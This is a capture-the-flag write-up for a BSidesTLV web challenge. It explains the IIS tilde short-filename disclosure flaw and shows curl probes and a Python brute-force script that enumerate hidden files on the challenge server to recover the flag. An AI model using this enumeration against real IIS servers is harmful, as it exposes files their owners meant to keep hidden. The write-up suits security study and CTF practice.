

# IIS on Steroids
* Category: Web Application
* 300 Points
* Solved by the JCTF Team

## Description
> I've been hiding a file that you'll never find in dictionaries and maybe you'll find it with a brute-force attack, but it will take you like 10 years or so :)
> 
> Can you deal with it?
> 
> http://iis.challenges.bsidestlv.com/

## Solution

Let's connect to the server:
```console
root@kali:/media/sf_CTFs/bsidestlv/IIS_on_Steroids# curl -v iis.challenges.bsidestlv.com/
*   Trying 104.248.251.27...
* TCP_NODELAY set
* Connected to iis.challenges.bsidestlv.com (104.248.251.27) port 80 (#0)
> GET / HTTP/1.1
> Host: iis.challenges.bsidestlv.com
> User-Agent: curl/7.64.0
> Accept: */*
>
< HTTP/1.1 400 Bad Request
< Server: Microsoft-IIS/7.5 on Steroids
< Content-Type: text/html; charset=utf-8
< Content-Length: 10
< Date: Tue, 18 Jun 2019 19:45:45 GMT
< Set-Cookie: s=9a85adfcc3667df6c60517ff3b10a82d8b32cde2; path=/; domain=challenges.bsidestlv.com
<
* Connection #0 to host iis.challenges.bsidestlv.com left intact
Nananaaaa!
```

Nothing much, apart from the fact that they are using IIS 7.5.

Searching for `"IIS 7.5" vulnerability` brings up [this link](https://www.exploit-db.com/exploits/19525) as one of the top results.

> The vulnerability is caused by a tilde character "~" in a Get request, which could allow remote attackers to disclose File and Folder names.
> Tilde character "~" can be used to find short names of files and folders when the website is running on IIS.
The attacker can find important file and folders that they are not normally visible.

The attack is based on the [8.3 Filename](https://en.wikipedia.org/wiki/8.3_filename) format, which dates back to DOS days. In short, without going into all the corner cases, file names could contains a maximum of 8 characters, a period and three more characters for the extension. Longer file names would be truncated, and the convention was to include the first six characters, a `~` character, and a number (starting from 1).

We can see this in action in one of the other challenges - [DoSaTTaCK](DoSaTTaCK.md):


`PCDOS3~1.IMG` is in fact `PCDOS330-DISK1.img` after applying the 8.3 Filename format. If we would have `PCDOS330-DISK8.img` as well, it would have been renamed `PCDOS3~2.IMG` and so on.

The vulnerability causes IIS to leak the existence of files when using this convention, which can also be combined with wildcards (`*`). The server will return a 400 error if no file matches the pattern, and a 404 error if some file does match the pattern.

For example:
```console
root@kali:/media/sf_CTFs/bsidestlv/IIS_on_Steroids# curl -I http://iis.challenges.bsidestlv.com/x*~1*
HTTP/1.1 400 Bad Request
Server: Microsoft-IIS/7.5 on Steroids
Content-Type: text/html; charset=utf-8
Content-Length: 10
Date: Tue, 25 Jun 2019 19:04:40 GMT
Set-Cookie: s=cda86a9c0d56c79bc776acfac58938ef49a39924; path=/; domain=challenges.bsidestlv.com
root@kali:/media/sf_CTFs/bsidestlv/IIS_on_Steroids# curl -I http://iis.challenges.bsidestlv.com/l*~1*
HTTP/1.1 404 Not Found
Server: Microsoft-IIS/7.5 on Steroids
Content-Type: text/html; charset=utf-8
Content-Length: 23
Date: Tue, 25 Jun 2019 19:04:33 GMT
Set-Cookie: s=cda86a9c0d56c79bc776acfac58938ef49a39924; path=/; domain=challenges.bsidestlv.com
```

According to the response codes, we can see that there's a file starting with `l`, but not one starting with `x`.

We can find more information [here](http://blog.digital-horror.com/exploiting-microsoft-iis-tilde-enumeration/), [here](https://support.detectify.com/customer/portal/articles/1711520-microsoft-iis-tilde-vulnerability) and [here](https://soroush.secproject.com/downloadable/microsoft_iis_tilde_character_vulnerability_feature.pdf), for example.

We solved the challenge by trying first "`*~1*`":
```console
root@kali:/media/sf_CTFs/bsidestlv/IIS_on_Steroids# curl http://iis.challenges.bsidestlv.com/*~1*
No so fast..Try harder!
```

Then "`*~2*`":
```console
root@kali:/media/sf_CTFs/bsidestlv/IIS_on_Steroids# curl http://iis.challenges.bsidestlv.com/*~2*
BSidesTLV{Y0ulln3v3rf1ndm3!}
```

But let's put some effort into it with the following script:
```python
import requests
import string

def send_request(path):
    return requests.get("http://iis.challenges.bsidestlv.com/{}".format(path))

def pattern_exists(pattern):
    r = send_request(pattern)
    if r.status_code == 400:
        return False
    elif r.status_code == 404:
        return True
    elif r.status_code == 200:
        return True
    else:
        raise Exception("Unexpected response code: {}".format(r.status_code))

alpha = set(string.printable) - set("<>:\"/\\|?*\r\n\b#.")
candidates = [""]

found_files = []
while len(candidates) > 0:
    base_candidate = candidates.pop()
    for c in alpha:
        candidate = base_candidate + c
        if pattern_exists("{}*~{}*".format(candidate, 1)):
            candidates.append(candidate)
    else:
        found_files.append(base_candidate)
    print (candidates)

for file in found_files:
    print ("{}:".format(file))
    print (send_request(file).text)
    print ("")
```

The script found the following files, the third one contained the flag:
```
l3v3lupah1dd3n:
l3v3lupqh1dd3nd1r3ct0ry:
l3v3luph1dd3nd1r3ct0ryandn0tm3:
```